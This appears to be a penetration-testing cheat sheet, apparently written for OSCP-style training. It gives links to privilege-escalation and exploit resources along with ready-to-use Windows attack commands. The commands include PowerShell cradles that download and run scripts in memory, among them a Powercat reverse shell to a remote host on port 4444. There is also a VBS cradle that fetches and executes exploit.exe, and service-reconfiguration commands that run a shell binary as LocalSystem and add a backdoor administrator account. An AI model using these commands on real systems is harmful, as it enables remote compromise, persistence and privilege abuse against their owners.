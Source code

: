 
## Reverse Shell Generator

https://www.revshells.com/

https://github.com/ferreirasc/oscp/tree/master/payloads

## One liner reverse shells

https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/

## Windows Privesc Additional Resources

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation

https://www.fuzzysecurity.com/tutorials/16.html

## Linux Privesc Additional Resources

https://book.hacktricks.xyz/linux-hardening/privilege-escalation

https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md

https://guif.re/linuxeop

## File Transfers Additional Resources

https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65

https://www.hackingarticles.in/file-transfer-cheatsheet-windows-and-linux/

## Precompiled Binaries / exploits

https://github.com/SecWiki/windows-kernel-exploits

https://github.com/SecWiki/linux-kernel-exploits

## Powershell Usefull Cradles to Download File

```
powershell.exe -NoP -NonI -Exec Bypass IEX "(New-Object System.Net.WebClient).DownloadFile('http://10.11.0.117/shell443.exe','shell443.exe')"
```

## Powershell Usefull Cradles to Download Script to memory and Execute it

This Example will download Powercat to memory and execute a reverse shell using Powercat without touching the disk

```
powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object System.Net.Webclient).DownloadString("http://172.16.242.173/powercat.ps1"); powercat -c 172.16.242.173 -p 4444 -e cmd.exe
```

You can use this technique to download any script to memory and execute functions from it like Powerview also

```
powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.101.24/powerview.ps1'); Get-DomainController
```

## VBS Cradle to Download Transfer File and Execute it

Transfer exploit.exe from your kali server to the target server and execute it

```
cmd.exe /c "@echo Set objXMLHTTP=CreateObject("MSXML2.XMLHTTP")>poc.vbs&@echo objXMLHTTP.open "GET","http://192.168.119.142/exploit.exe",false>>poc.vbs&@echo objXMLHTTP.send()>>poc.vbs&@echo If objXMLHTTP.Status=200 Then>>poc.vbs&@echo Set objADOStream=CreateObject("ADODB.Stream")>>poc.vbs&@echo objADOStream.Open>>poc.vbs&@echo objADOStream.Type=1 >>poc.vbs&@echo objADOStream.Write objXMLHTTP.ResponseBody>>poc.vbs&@echo objADOStream.Position=0 >>poc.vbs&@echo objADOStream.SaveToFile "exploit.exe">>poc.vbs&@echo objADOStream.Close>>poc.vbs&@echo Set objADOStream=Nothing>>poc.vbs&@echo End if>>poc.vbs&@echo Set objXMLHTTP=Nothing>>poc.vbs&@echo Set objShell=CreateObject("WScript.Shell")>>poc.vbs&@echo objShell.Exec("exploit.exe")>>poc.vbs&cscript.exe poc.vbs"
```

## Reconfigure Service


Reconfigure Service:
sc config ServiceName depend= "" start= demand binpath= "C:\Inetpub\wwwroot\shell443.exe" obj= ".\LocalSystem" password= ""
sc config ServiceName binPath= "cmd /c net user haxxor haxxor123 /add && net localgroup Administrators haxxor /add && net localgroup 'Remote Desktop Users' haxxor /add"


